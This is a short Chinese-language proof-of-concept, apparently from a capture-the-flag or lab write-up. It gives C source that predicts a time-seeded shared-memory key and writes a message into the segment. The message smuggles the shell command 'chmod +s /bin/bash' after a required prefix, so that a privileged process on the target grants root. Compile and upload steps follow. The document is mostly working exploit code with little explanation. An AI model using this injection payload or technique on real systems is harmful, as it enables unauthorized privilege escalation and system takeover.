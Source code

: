 ### POC

这是我用**AI**跑的👇

```
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>

int main() {
    unsigned int v4 = (unsigned int)time(NULL);
    srand(v4);

    // 生成随机键
    key_t key = rand() % 0xFFFFF;

    // 获取共享内存段的标识符
    int shmid = shmget(key, 0x400, IPC_CREAT | 0666);
    if (shmid < 0) {
        perror("shmget failed");
        return 1;
    }

    // 附加共享内存
    char *share_memory = (char *)shmat(shmid, NULL, 0);
    if (share_memory == (char *)-1) {
        perror("shmat failed");
        return 1;
    }

    // 修改共享内存中的内容，必须要有前面的Leaked到>部分
    const char *message = "Leaked hash detected > '; chmod +s /bin/bash;#";
    snprintf(share_memory,0x400,"%s", message ); // 将消息复制到共享内存

    // 读取并打印共享内存中的内容
    printf("Message in shared memory: %s\n", share_memory);

    // 分离共享内存
    if (shmdt(share_memory) == -1) {
        perror("shmdt failed");
        return 1;
    }

    return 0;
}
```

使用**gcc**编译好，然后传到靶机上

```
gcc -o test test.c
```
